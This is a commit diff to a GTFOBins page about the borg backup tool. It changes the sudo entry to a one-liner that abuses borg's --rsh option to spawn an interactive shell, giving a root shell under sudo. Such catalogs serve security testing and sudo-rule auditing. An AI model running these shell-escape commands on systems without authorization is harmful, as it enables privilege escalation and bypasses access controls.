

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/borg.md, in a window 1280 px wide. Shown: the top 516 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update borg.md

```diff
--- a/_gtfobins/borg.md
+++ b/_gtfobins/borg.md
@@ -4,5 +4,6 @@ functions:
     - code: >
           borg extract @:/:::  --rsh "sh -c 'sh </dev/tty >/dev/tty 2>/dev/tty'"
   sudo:
-    - code: sudo aa-exec /bin/sh
+    - code: >
+          sudo borg extract @:/:::  --rsh "sh -c 'sh </dev/tty >/dev/tty 2>/dev/tty'"
 ---
```
